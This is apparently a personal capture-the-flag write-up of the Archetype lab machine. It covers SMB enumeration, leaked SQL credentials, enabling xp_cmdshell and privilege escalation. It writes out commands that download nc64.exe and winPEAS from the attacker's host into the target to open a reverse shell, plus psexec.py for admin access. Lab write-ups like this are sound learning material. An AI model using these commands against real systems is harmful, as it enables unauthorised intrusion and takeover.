 Archtype 


Did nmap as usual to get the open ports - could see so many open ports like ms rpc, mssql and smb client etc  
now will try accessing the smbclient by using : smbclient -N -L {ip address}  -N means no password and -L to list the share 

I can see that only backup and IPC$ shares seems to be allowed public assess, and we get a dtsconfig file while opening “backup” share   it seems  .dtsconfig files is used to hardcode connection strings and passwords for the  sql server so a SSIS package ( Sql Server integration service ) will use it  to run ETLs 
Since this was stored securely we can use the password and username given in the .dtsconfig and use it through impacket to connect to the sql server  
password=[REDACTED];User ID=ARCHETYPE\sql_svc  we can connect using python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth,  mssqlclient.py is a python file inside the impacket repo and we add a flag -windows-auth to specify to use windows authentication   now a sql command line will show up and we use SELECT is_srvrolemember('sysadmin'); to check if our role is “sysadmin”  and it returned 1 so that means we are and we have the most high level access so we can use something called xp_cmdshell to run commands on the os   from a cheatsheet we get that this is how we enable xp_cmdshell : EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv  then EXEC xp_cmdshell 'net user'; to check if its activated

now using this we will download the nc64.exe file we have hosted in a python server so we can run the nc64.exe to open the victims port 

to download we can do : xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe”   wget we request to our python server where we have hosted the nc64.exe file and download it to the path specified which is download   now will connect to our port which we exposed using nc  -lvp {port} 

now we need to elevate our access using winpeas which we add to our python server and download it in victim’s device then run it in powershell - wget http://10.10.14.190/winPEASx64.exe -outfile winPEASx64.exe

when you run the winPeas exe it returns a long output with too much info including vulnerabilities it seems its a enumeration tool   As per walkthrough “As this is a normal user account as well as a service account, it is worth checking for frequently access files
or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of
.bash_history for Linux systems. The file ConsoleHost_history.txt can be located in the directory
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\” 

There we get the admin password and using :  python3 psexec.py administrator@10.129.95.187  then we get the root flag 
 dont forget : 

winPEAS - for  local enumeration for privilege escalation.

psexec.py - lets you authenticate with high privileges and get shell access (SMB-based).



 
